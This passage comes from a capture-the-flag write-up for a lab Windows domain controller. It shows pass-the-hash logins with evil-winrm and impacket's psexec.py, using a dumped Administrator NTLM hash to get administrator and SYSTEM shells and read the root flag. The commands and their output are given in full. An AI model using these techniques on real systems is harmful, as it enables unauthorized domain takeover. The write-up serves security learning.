SAUNA$:des-cbc-md5:104c515b86739e08
[*] Cleaning up...
```

# Shell as Administrator
## Evil-WinRM
we will use the administrator hash to get a shell using evil-winrm
```cmd
root@kali:~# evil-winrm -i 10.10.10.175 -u Administrator -H d9485863c1e9e05851aa40cbb4ab9dff

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
egotisticalbank\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> cat ..\desktop\root.txt
f3ee04965c68257382e31502cc5e881f
```

this gives us shell as administrator but if we want a system shell we can use `psexec.py`

## psexec.py
```console
root@kali:~# /usr/share/doc/python3-impacket/examples/psexec.py administrator@10.10.10.175 -hashes d9485863c1e9e05851aa40cbb4ab9dff:d9485863c1e9e05851aa40cbb4ab9dff
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Requesting shares on 10.10.10.175.....
[*] Found writable share ADMIN$
[*] Uploading file XPTWPUzv.exe
[*] Opening SVCManager on 10.10.10.175.....
[*] Creating service APMT on 10.10.10.175.....
[*] Starting service APMT.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.973]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>type \users\administrator\desktop\root.txt
f3ee04965c68257382e31502cc5e881f
```



